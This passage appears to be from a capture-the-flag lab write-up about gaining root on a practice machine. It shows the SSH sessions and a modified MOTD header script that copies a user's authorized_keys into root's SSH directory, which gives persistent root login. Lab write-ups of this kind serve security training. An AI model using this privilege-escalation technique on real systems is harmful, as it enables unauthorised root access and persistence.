 To verify that this was actually the case, I added my RSA public key to the `sysadmin` user's `authorized_keys` file and logged in via SSH:

```shell
matt@kali:~/.ssh$ ssh -i id_rsa sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
Welcome to Xh4H land
Last login: Mon Mar 16 03:50:24 2020 from 10.10.14.2
$ id
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)
$
```

It appeared as though that was the case, so from there the plan was straightforward. I modified the script to copy `/home/sysadmin/.ssh/authorized_keys` to `/root/.ssh/authorized_keys`, echoed a message to confirm that the modified script ran as desired, and logged in via SSH:

```bash
#!/bin/bash
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
[ -r /etc/lsb-release ] && . /etc/lsb-release
echo "\nWelcome to Xh4H land \n"
cp /home/sysadmin/.ssh/authorized_keys /root/.ssh/authorized_keys
echo 'try logging in as root \n'
```

```shell
matt@kali:~/.ssh$ ssh -i id_rsa sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
\nWelcome to Xh4H land \n
try logging in as root \n
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
Last login: Sat Jun 27 09:29:38 2020 from 10.10.14.35
$ exit
Connection to 10.10.10.181 closed.
matt@kali:~/.ssh$ ssh -i id_rsa root@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
Welcome to Xh4H land
```